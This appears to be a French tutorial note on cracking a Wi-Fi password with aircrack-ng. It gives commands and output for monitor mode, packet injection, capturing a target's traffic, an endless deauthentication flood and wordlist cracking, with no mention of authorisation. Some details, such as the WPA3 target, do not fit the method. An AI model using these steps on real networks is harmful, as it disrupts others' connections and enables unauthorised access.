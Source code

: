 ```yaml
---
{"dg-publish":true,"permalink":"/mes-notes/kali/cracker-un-wi-fi/"}
---
```


Pour commencer nous allons prendre notre VM kali sur la quelle nous allons plug une carte wifi externe qui accepte le mode monitor (pour ma part c'est une ALFA AWUS036NNHA).

Une fois plug à nôtre kali nous pouvons nous assurez quelle est bien détecté par le système avec la commande `<lsusb>` :
```Shell
┌──(kali㉿kali)-[~]
└─$ lsusb
Bus 002 Device 002: ID 0cf3:9271 Qualcomm Atheros Communications AR9271 802.11n
Bus 002 Device 001: ID 1d6b:0002 Linux Foundation 2.0 root hub
Bus 001 Device 003: ID 0e0f:0002 VMware, Inc. Virtual USB Hub
Bus 001 Device 002: ID 0e0f:0003 VMware, Inc. Virtual Mouse
Bus 001 Device 001: ID 1d6b:0001 Linux Foundation 1.1 root hub
```

Pour moi c'est la première, elle apparaît sous le nom de : "Qualcomm Atheros Communications AR9271 802.11".

Avec la commande `<iwconfig>` nous pouvons voir le mode actuel de la carte (elle nous permet également de voir le nom de l'interface) :
```Shell
┌──(kali㉿kali)-[~]
└─$ iwconfig 
lo        no wireless extensions.

eth0      no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off

```

Nous allons arrêtez la carte puis stop tout precessus qui utilise la carte (il est important d'être root pour utiliser la suite aircrack-ng) : 
```Shell
┌──(kali㉿kali)-[~]
└─$ sudo -s
[sudo] Mot de passe de kali : 
┌──(root㉿kali)-[/home/kali]
└─# ifconfig wlan0 down
   
┌──(root㉿kali)-[/home/kali]
└─# airmon-ng check kill

Killing these processes:

    PID Name
   2370 wpa_supplicant
```

Ensuite nous mettons la certe en mode monitor et nous redémarrons la carte :
```Shell
┌──(root㉿kali)-[/home/kali]
└─# iwconfig wlan0 mode monitor
   
┌──(root㉿kali)-[/home/kali]
└─# iwconfig                   
lo        no wireless extensions.

eth0      no wireless extensions.

wlan0     IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off

┌──(root㉿kali)-[/home/kali]
└─# ifconfig wlan0 up
```

Maintenant nousallons faire un test d'injection de paquets :
```Shell
┌──(root㉿kali)-[/home/kali]
└─# aireplay-ng --test wlan0
20:10:38  Trying broadcast probe requests...
20:10:38  Injection is working!
20:10:40  Found 4 APs

20:10:40  Trying directed probe requests...
20:10:40  **:19:**:AA:**:40 - channel: 1 - 'SFR_****'
20:10:41  Ping (min/avg/max): 3.545ms/32.508ms/84.305ms Power: -49.17
20:10:41  30/30: 100%

20:10:41  **:0C:6B:**:**:8E - channel: 1 - 'SFR_****'
20:10:43  Ping (min/avg/max): 1.582ms/39.841ms/198.426ms Power: -86.96
20:10:43  28/30:  93%

20:10:43  **:2D:1B:**:39:** - channel: 1 - 'SFR_****'
20:10:47  Ping (min/avg/max): 5.082ms/22.694ms/46.298ms Power: -87.00
20:10:47   9/30:  30%

20:10:47  0E:87:AC:76:E8:0B - channel: 6 - 'iPhone'
20:10:49  Ping (min/avg/max): 1.476ms/22.612ms/98.443ms Power: -23.32
20:10:49  28/30:  93%
```

Ici le réseau qui nous intéresse est le réseau "iPhone". Nous lancerons donc notre attaques sur l'adesse MAC suivante : 0E:87:AC:76:E8:0B.

Vu que nous connaissons l'adresse de MAC du réseau nous pouvons déjà nous concentrer sur le réseau voulu.
Nous allons donc pouvoir lancer une capture de trafic avec airodump-ng.
```Shell
┌──(root㉿kali)-[/home/kali]
└─# airodump-ng -w capture-trafic -c 6 --bssid 0E:87:AC:76:E8:0B wlan0
CH  6 ][ Elapsed: 1 min ][ 2023-10-27 21:09                                
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AU 
 
 0E:87:AC:76:E8:0B  -21  75      789        1    0   6  130   WPA3 CCMP   SA 
 
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes   
    
 0E:87:AC:76:E8:0B  96:BE:CF:0C:6F:E3  -40    0 -24      0      416
``` 
Dans cette commande le `<-w>` déclare que le fichier "out" serra capture-trafic, le `<-c>` déclare le channel qu'utilise le réseau utilisateur et le `<--bssid>` déclare l'adresse MAC visée. `<wlan0>` est pour l'interface de al carte wifi.
En parrallèle nous lançons des requètes de deauth :
```Shell
┌──(root㉿kali)-[/home/kali]
└─# aireplay-ng --deauth 0 -a 0E:87:AC:76:E8:0B wlan0
21:08:55  Waiting for beacon frame (BSSID: 0E:87:AC:76:E8:0B) on channel 6
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
21:08:55  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:08:56  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:08:56  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:08:57  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:08:57  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:08:58  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:08:58  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:08:59  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:08:59  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:09:00  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:09:00  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:09:01  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:09:01  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:09:02  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
21:09:02  Sending DeAuth (code 7) to broadcast -- BSSID: [0E:87:AC:76:E8:0B]
```
Le `<-0>` est pour dire que nous voulions des requètes de deauth à l'infini. 

Une fois la capture terminé nous pouvons l'examiner avec aircrack-ng.
```Shell
┌──(root㉿kali)-[/home/kali]
└─# aircrack-ng capture-trafic-01.cap -w /usr/share/wordlists/rockyou.txt
```

Si le mot de passe est dans la wordlist aircrack-ng vous affichera une notification avec écrit "KEY FOUND" et ce message serra suivi du mot de passe.